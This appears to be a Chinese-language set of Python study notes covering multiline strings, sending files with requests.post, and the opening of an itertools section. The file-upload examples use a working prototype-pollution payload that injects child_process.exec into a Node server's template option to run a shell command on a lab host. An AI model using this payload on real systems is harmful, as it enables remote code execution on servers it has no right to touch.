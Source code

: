 - 正常字符串定义换行得用`\n`
- 用多行字符串就会按照你写的格式输出字符串
```python
str1='aaaaaaaaa\nbbbbb'
str2='''aaaaaa
bbbbb
'''
print(str1)
print(str2)
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1676539809760-20e8f1ec-cebf-4f41-b058-7e7c1f9854d3.png#averageHue=%23292827&clientId=u003437a4-0f2f-4&from=paste&height=83&id=u0edea04d&originHeight=166&originWidth=272&originalType=binary&ratio=2&rotation=0&showTitle=false&size=2539&status=done&style=none&taskId=u6b3850de-2809-4500-85cb-e3e6a3bf9bd&title=&width=136)
# 14.post提交文件
:::info

- files的参数是一个字典，字典的key是上传的包中的name，**value必须是一个元组，第一个参数是filename，第二参数是文件对象**
:::

- 这是第一种方式，元组的第二个位置是一个字符串，它将被视为文件内容
```python
url = "http://192.168.56.128:8001"
cmd = 'cat /root/WebstormProjects/untitled1/src/index.js > /root/WebstormProjects/untitled1/2'
r = requests.post(url, files={
    "__proto__.outputFunctionName": (
        None,
        f"x;process.mainModule.require(\'child_process\').exec(\"{cmd}\");x"
    )
})
print(r.request.body)


```

- 这是第二种方式，创建一个文件对象，然后再作为files的参数
```python
url = "http://192.168.56.128:8001"

cmd = 'cat /root/WebstormProjects/untitled1/src/index.js > /root/WebstormProjects/untitled1/2'

x = f"x;process.mainModule.require(\'child_process\').exec(\"{cmd}\");x"
cmd_io = io.StringIO(x)
poc = {"__proto__.outputFunctionName":(None,cmd_io)}
r = requests.post(url, files=poc)
print(r.request.body)

```
# 15.itertools
## 

:::info
itertools 是 Python 标准库中的一个模块，包含了许多用于高效循环迭代的工具函数。
这个模块提供了一些用于生成迭代器的函数，可以帮助你更方便地处理迭代器、组合、排列、笛卡尔积等常见的组合计算问题。
